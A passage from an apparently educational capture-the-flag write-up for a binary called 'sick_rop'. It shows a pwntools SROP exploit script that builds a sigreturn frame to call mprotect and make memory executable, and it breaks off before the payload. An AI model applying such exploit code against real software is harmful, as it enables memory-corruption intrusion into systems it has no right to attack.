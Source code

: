 11. Next, let's find a writeable memory segment.

> using vmmap | writeable --> 0x400000

#### THINGS TO NOTE:

```
frame.rsp -> is used to returning to a "SAFE" place (prevent crashing) after all the processes is finished.
Because we're changing the stack frame, we can't just use vuln_function for frame.rsp.
Hence we need to use the pointer address to the vuln_function.
```

> GRABBING THE POINTER ADDRESS TO VULN FUNCTION (using peda, dunno how if using pwndbg). | ans --> 0x4010d8

12. Here's our script so far:

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './sick_rop'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

sh = start()

rop = ROP(elf)
syscall = rop.find_gadget(['syscall', 'ret'])[0]
info(f'SYSCALL GADGET --> {hex(syscall)}')

vuln_pointer = 0x4010d8
writeable_area = 0x400000

frame = SigreturnFrame()
frame.rax = 0xa #10 --> mprotect
frame.rdi = writeable_area
frame.rsi = 0x400000 # set size
frame.rdx = 0x7 #7 --> initialize rwx access to what's rdi pointing to

# because we're changing the stack frame
# keep in mind --> calling the vuln function directly, won't get us to that function
frame.rsp = vuln_pointer 
frame.rip = syscall
```

13. Now, to craft our first payload. The formula is:
